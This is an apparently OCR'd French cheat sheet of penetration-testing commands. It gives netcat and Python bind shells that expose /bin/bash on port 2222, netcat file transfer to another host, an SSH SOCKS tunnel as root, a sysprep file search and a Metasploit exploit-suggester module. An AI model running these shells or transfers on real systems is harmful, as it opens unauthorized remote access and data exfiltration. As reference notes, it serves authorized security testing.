 <h2>Obtenir un shell complet</h2>
<ul>Ouvrent un shell sur le port 2222 :
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port</br>

Envoi fichier :</br>
nc -l -p 1234 > out.file</br>
nc -w 3 [destination] 1234 < out.file</br>


Tunnel ssh dynamique sur le port local 8080:</br>
ssh -ND 8080 root@addressIP</br>

Accorder les permissions pour un user specifique 

setfacl -m u:username:rwx myfolder

dir sysprep /s /b pour trouver un fichier dans le repertoire courant et ses sous-dossiers

use post/multi/recon/local_exploit_suggester
